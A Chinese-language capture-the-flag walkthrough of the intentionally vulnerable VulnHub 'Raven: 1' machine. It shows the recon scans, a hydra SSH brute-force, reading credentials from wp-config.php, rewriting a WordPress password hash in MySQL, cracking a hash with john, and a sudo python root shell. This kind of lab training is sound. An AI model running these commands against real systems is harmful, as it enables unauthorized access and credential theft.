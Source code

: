 # Raven: 1

https://www.vulnhub.com/entry/raven-1,256/#release

difficulty: Beginner/Intermediate

Finish Date：2024-4-8

## IP

192.168.10.153

## Scan

Open Port -> 22,80,111,53879

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 2681c1f35e01ef93493d911eae8b3cfc (DSA)
|   2048 315801194da280a6b90d40981c97aa53 (RSA)
|   256 1f773119deb0e16dca77077684d3a9a0 (ECDSA)
|_  256 0e8571a8a2c308699c91c03f8418dfae (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          45092/tcp6  status
|   100024  1          50370/udp   status
|   100024  1          51216/udp6  status
|_  100024  1          53879/tcp   status
53879/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:48:DE:62 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## flag1

访问 80 主页，点开各个链接并查看源码，看是否有信息泄露，在 http://raven.local/service.html 页面下，查看源代码，在注释中找到了第一个 flag

```
<!-- flag1{b9bbcb33e11b80be759c4e844862482d} -->
```

使用目录爆破进行尝试，发现 2 个有意思的目录：

```
/vendor               (Status: 301) [Size: 317] [--> http://192.168.10.153/vendor/]
/wordpress            (Status: 301) [Size: 320] [--> http://192.168.10.153/wordpress/]
```

先尝试访问 /vendor/ 目录，发现了 List Directory，查看列表中的文件，看是否有信息泄露：

-   PATH 文件中找到了 vender 的文件目录 /var/www/html/vendor/
-   VERSION 文件中找到了版本信息 5.2.16
-   发现 vendor 目录中的内容是 PHPMailer

其他没有发现什么有用的信息，尝试搜索 PHPMailer 5.2.16 对应的版本是否有可利用的漏洞，也没发现可以直接利用的，貌似这个方向行不通。

访问主页中的 BLOG 页面，显示是在一个域名下显示的：http://raven.local/wordpress/index.php/2018/08/12/hello-world/，所以需要先把 192.168.10.153 raven.local 添加到/etc/hosts 中，之后可以正常访问 BLOG 中的 wordpress 页面。

使用 wpscan 对网站进行扫描，发现有价值信息。发现两个用户名：michael 和 steven。使用 cewl -d 3 http://raven.local/wordpress/ -w pass 收集到相关密码，对 wordpress 的登陆页面进行爆破，收集的密码都不对，没有成功。

还有一个 ssh 服务，使用 hydra 对发现的两个用户名，密码字典为刚才使用 cewl 收集到的密码，进行 ssh 爆破。

```
hydra -t 20 -l michael -P ./pass ssh://192.168.10.153/
[22][ssh] host: 192.168.10.153   login: michael   password: michael
```

ssh 进行登陆 michael:michael，登陆成功时，Baner 显示了一个信息：You have new mail.。

查看/etc/passwd 发现有两个系统用户：michael 和 steven。

先尝试能不能找到 flag 文件，find 发现 flag2 文件：

```
find / -type f -name flag*.txt 2>/dev/null

/var/www/flag2.txt
```

## flag2

michael@Raven:~$ cat /var/www/flag2.txt
flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

直接查看 wordpress 连接数据库的信息：

```
michael@Raven:/var/www/html/wordpress$ cat wp-config.php

define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'R@v3nSecurity');
define('DB_HOST', 'localhost');
```

登陆到本地 mysql 数据库后，查看 wordpress 数据库中的用户信息表：

```
mysql> select * from wp_users;

1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0
2 | steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/
```

尝试破解两个 user 的 密码哈希，没有结果，直接 update 更改密码哈希，对应明文密码为：11111

```
UPDATE `wp_users` SET `user_pass` = '$P$BHQSV1dIWmYMxedX3AaNbZnFGlOcOW0' WHERE user_login = 'steven';
```

## flag3

用 steven:11111 登陆到 wordpress 后台后，在左侧 Posts 菜单中获得了第 3 个 flag。

```
flag3{afc01ab56b50591e7dccf93122770cd2}
```

## flag4

### 方式 1：

看到了 flag 是在 Post 中，进入数据库再次检索 wp_posts 表，看是否有新的发现，果然发现了 flag4

```
flag4{715dea6c055b9fe3337544932f2941ce}
```

### 方式 2：

尝试对系统进行提权到 root，上传 linpeas.sh，未发现有用的信心，检测系统内核漏洞，尝试了几个都没有成功。前面发现的两个用户只有一个登陆成功了，尝试对数据库中的另外一个哈希 `$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/` 进行破解，尝试获得明文密码。

```
john --wordlist=/home/kali/tools/dict/rockyou.txt hash

pink84           (?)
```

获得了明文密码 pink84，尝试对 steven ssh 登陆，发现登陆成功。看此用户是否有能提权的功能点：

```
$ sudo -l
Matching Defaults entries for steven on raven:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User steven may run the following commands on raven:
    (ALL) NOPASSWD: /usr/bin/python
```

使用 python 进行提权利用，获得 root 权限：

```
sudo /usr/bin/python -c 'import os; os.system("/bin/sh")'
```

在/root 下发现 flag4.txt

```
# cat flag4.txt
______

| ___ \

| |_/ /__ ___   _____ _ __

|    // _` \ \ / / _ \ '_ \

| |\ \ (_| |\ V /  __/ | | |

\_| \_\__,_| \_/ \___|_| |_|


flag4{715dea6c055b9fe3337544932f2941ce}
```

